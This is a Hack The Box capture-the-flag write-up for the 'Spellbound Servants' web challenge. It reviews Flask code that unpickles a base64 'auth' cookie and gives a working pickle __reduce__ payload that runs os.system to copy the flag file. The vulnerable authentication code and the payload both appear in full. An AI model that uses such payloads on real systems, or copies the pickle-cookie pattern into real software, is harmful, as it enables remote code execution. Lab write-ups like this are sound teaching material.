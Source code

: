 ```yaml
---
clayout: ctf
title: Spellbound Servants
date: 2025-01-01
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Spellbound Servants
      link: https://app.hackthebox.com/challenges/626
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/626
          thumbnail: /ctf/hack-the-box/challenges/web/spellbound-servants/pwned.png
---
```


## Challenge Description

Innocent souls, ensnared by malevolent enchantments, are tragically being auctioned as subservient beings on a sinister
website. Our mission is to infiltrate this digital realm, unravel the dark spells that bind them, and set the captives
free.

## Challenge Overview

The challenge involves a web application called **Spellbound Servants**, a themed website that provides a user interface
for "halloween servants" products. The application requires users to log in and uses cookies to authenticate them. Upon
inspecting the application's functionality, a vulnerability was discovered that allows for remote code execution (RCE).
This vulnerability lies in the insecure deserialization of user-provided data in the `auth` cookie.

## Code Review

The application's backend code includes the following critical components:

1. **Authentication Mechanism**:
   ```python
   def isAuthenticated(f):
       @wraps(f)
       def decorator(*args, **kwargs):
           token = request.cookies.get('auth', False)

           if not token:
               return abort(401, 'Unauthorised access detected!')
           
           try:
               user = pickle.loads(base64.urlsafe_b64decode(token))
               kwargs['user'] = user
               return f(*args, **kwargs)
           except:
               return abort(401, 'Unauthorised access detected!')

       return decorator
   ```
    - The `auth` cookie is base64-decoded and deserialized using `pickle.loads`.
    - This approach is inherently insecure as it trusts the user-provided `auth` token without validation.

2. **Login Process**:
   ```python
   @api.route('/login', methods=['POST'])
   def api_login():
       if not request.is_json:
           return response('Invalid JSON!'), 400

       data = request.get_json()
       username = data.get('username', '')
       password = data.get('password', '')

       if not username or not password:
           return response('All fields are required!'), 401

       user = login_user_db(username, password)

       if user:
           res = make_response(response('Logged In successfully'))
           res.set_cookie('auth', user)
           return res
       
       return response('Invalid credentials!'), 403
   ```
    - The user data is stored as a serialized `pickle` object in the `auth` cookie.

### Vulnerability

The use of `pickle.loads` to deserialize the cookie data introduces a **remote code execution (RCE)** vulnerability.
Since `pickle` can execute arbitrary code during deserialization, a malicious actor can craft a payload that executes
commands on the server.

## Exploitation

To exploit this vulnerability, the following steps were taken:

### 1. Crafting the Malicious Payload

A Python script was used to generate a malicious `pickle` payload that executes a command to copy the flag file to a
publicly accessible directory.

```python
import base64
import pickle

class RCE:
    def __reduce__(self):
        return exec, ('import os; os.system("cat /flag.txt > /app/application/static/flag.txt")',)

malicious_pickle = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode()
print(malicious_pickle)
```

This payload:

- Defines a class `RCE` with a `__reduce__` method that executes the command to copy the flag.
- Serializes the `RCE` object using `pickle` and encodes it in base64.

### 2. Setting the Malicious Cookie

The generated payload is set as the `auth` cookie in the browser. Using the developer tools, the cookie is modified to
contain the malicious `pickle` payload.

### 3. Triggering the Exploit

The application processes the `auth` cookie when accessing authenticated endpoints, such as `/home`. Upon visiting this
endpoint with the malicious cookie, the command is executed on the server.

### 4. Receiving the Flag

The flag is copied to the publicly accessible directory, allowing it to be retrieved by accessing the corresponding URL.

![Spellbound Servants - Flag](/ctf/hack-the-box/challenges/web/spellbound-servants/flag.png){style="display: block; margin: auto;"}

We successfully exploited the deserialization vulnerability to execute arbitrary commands on the server and retrieve the
flag. :tada:

## References

- [Python `pickle` Documentation](https://docs.python.org/3/library/pickle.html)
